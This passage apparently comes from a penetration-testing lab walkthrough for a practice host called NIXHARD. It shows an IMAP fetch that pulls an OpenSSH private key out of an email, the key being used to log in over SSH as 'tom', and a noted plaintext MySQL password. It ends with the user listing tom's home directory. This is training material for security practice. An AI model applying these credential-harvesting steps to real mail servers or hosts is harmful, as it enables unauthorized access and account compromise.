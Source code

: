 ```
* 1 FETCH (FLAGS (\Seen) INTERNALDATE "10-Nov-2021 01:44:26 +0000" RFC822.SIZE 3661 ENVELOPE ("Wed, 10 Nov 2010 14:21:26 +0200" "KEY" ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "MISSING_MAILBOX" "MISSING_DOMAIN")) ((NIL NIL "tom" "inlanefreight.htb")) NIL NIL NIL NIL))
1 OK Fetch completed (0.010 + 0.000 + 0.009 secs).

>1 FETCH 1 BODY[TEXT]

* 1 FETCH (BODY[TEXT] {3430}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9snuYvJaB/QOnkaAs92nyBKypu73HMxyU9XWTS+UBbY3lVFH0t+F
+yuX+57Wo48pORqVAuMINrqxjxEPA7XMPR9XIsa60APplOSiQQqYreqEj6pjTj8wguR0Sd

[SNIP]

vOVZ1VyxSnhcsREMJNE2U6ETGJMY25MSQytrI9sH93tqWz1CIUEkBV3XsbcjjPSrPGShV/
H+alMnPR1boleRUIge8MtQwoC4pFLtMHRWw6yru3tkRbPBtNPDAZjkwF1zXqUBkC0x5c7y
XvSb8cNlUIWdRwAAAAt0b21ATklYSEFSRAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
)
1 OK Fetch completed (0.001 + 0.000 secs).
```

```
┌──(nabla㉿kali)-[~]
└─$ chmod 600 id_rsa
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh -i id_rsa tom@10.129.202.20

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

[SNIP]

tom@NIXHARD:~$
```

```yaml
credentials:
    username: tom
    password: 'NMds732Js2761'
    host: 10.129.202.20 (NIXHARD)
    port: 3306 (MySQL)
```

#### Internal Information Gathering

```
tom@NIXHARD:~$ ls -la

total 48
drwxr-xr-x 6 tom  tom  4096 Nov 10  2021 .
drwxr-xr-x 5 root root 4096 Nov 10  2021 ..
-rw------- 1 tom  tom   532 Nov 10  2021 .bash_history
-rw-r--r-- 1 tom  tom   220 Nov 10  2021 .bash_logout
-rw-r--r-- 1 tom  tom  3771 Nov 10  2021 .bashrc
drwx------ 2 tom  tom  4096 Nov 10  2021 .cache
drwx------ 3 tom  tom  4096 Nov 10  2021 mail
drwx------ 8 tom  tom  4096 Jul 18 08:27 Maildir
-rw------- 1 tom  tom   169 Nov 10  2021 .mysql_history
-rw-r--r-- 1 tom  tom   807 Nov 10  2021 .profile
drwx------ 2 tom  tom  4096 Nov 10  2021 .ssh
-rw------- 1 tom  tom  2018 Nov 10  2021 .viminfo
```